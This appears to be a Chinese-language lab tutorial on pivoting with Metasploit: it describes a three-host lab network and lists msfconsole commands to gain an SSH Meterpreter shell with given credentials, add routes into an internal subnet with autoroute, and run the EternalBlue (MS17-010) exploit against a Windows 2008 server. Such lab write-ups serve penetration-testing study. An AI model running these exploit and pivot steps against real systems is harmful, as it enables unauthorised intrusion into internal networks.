

Meterpreter
===
🔙 [MENU README](./Pivot%20&%20Double%20Pivot.md)


# Enviroment
Parrot 
```bash
# eth0 : 192.168.0.18
# eth1 : 172.19.19.18
```
SSH
```bash
# eth0 : 192.168.0.70
# eth1 : 172.19.19.70
sudo ifconfig eth0 down
```
Windows 2008 (Web Server)
```bash
# eth0 : 192.168.0.7
# eth1 : 172.19.19.7
Disable 172.19.19.7
```

# MSF

```
MSF的autoroute模組是MSF框架中自帶的路由轉送功能
實作是MSF框架在已經取得的Meterpreter Shell的基礎上
增加一條去往「內網」的路由，直接使用MSF去存取原本不能
直接存取的內部網路資源，只要路由可達我們即可使用MSF來
進行探測
```
SSH
```bash
msfconsole -q
# msf
use exploit/multi/ssh/sshexec
set lhost 172.19.19.18
set rhosts 172.19.19.70
set username administrator
set password Infinit3
exploit
# meterpreter
shell
```
Session-Routing
```bash
run get_local_subnets
run post/multi/manage/autoroute OPTION=s
run autoroute -p
background


#也可以使用route add去設置
```
MS17_010
```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
show options
set rhosts 192.168.0.7
set lhost  172.19.19.18
check
exploit
```

